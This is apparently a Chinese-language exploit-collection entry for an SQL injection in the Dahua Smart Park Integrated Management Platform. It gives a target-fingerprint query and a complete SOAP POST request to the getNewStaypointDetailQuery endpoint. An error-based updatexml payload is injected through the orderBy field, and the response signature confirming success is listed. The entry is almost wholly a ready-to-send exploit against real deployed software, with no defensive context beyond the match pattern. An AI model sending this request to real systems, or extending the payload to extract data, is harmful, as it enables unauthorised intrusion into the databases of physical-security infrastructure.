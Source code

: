 ﻿# 大华智慧园区综合管理平台getNewStaypointDetailQuery SQL注入漏洞

> 更新时间：2024-03-29

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：app="dahua-智慧园区综合管理平台"

> 验证脚本：HTTP

```
POST /portal/services/carQuery/getNewStaypointDetailQuery HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:car="http://carQuery.webservice.dssc.dahua.com">
<soapenv:Header/>
<soapenv:Body>
<car:getNewStaypointDetailQuery>
<!--type: string-->
<searchJson>{}</searchJson>
<!--type: string-->
<pageJson>{"orderBy":"1 and 1=updatexml(1,concat(0x7e,(select md5(1)),0x7e),1)--"}</pageJson>
<!--type: string-->
<extend>quae divum incedo</extend>
</car:getNewStaypointDetailQuery>
</soapenv:Body>
</soapenv:Envelope>
```

> 响应代码特征：200

> 响应内容特征：a0b923820dcc509a

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台getNewStaypointDetailQuery SQL注入漏洞.poc

